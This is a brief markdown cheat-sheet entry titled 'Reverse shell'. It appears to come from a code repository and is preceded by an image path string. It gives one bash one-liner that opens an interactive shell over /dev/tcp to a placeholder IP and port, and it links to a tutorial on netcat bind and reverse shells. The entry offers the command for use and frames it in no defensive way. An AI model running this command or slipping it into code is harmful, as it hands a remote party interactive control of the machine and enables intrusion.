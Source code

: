 # Reverse shell

```bash
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

- https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/
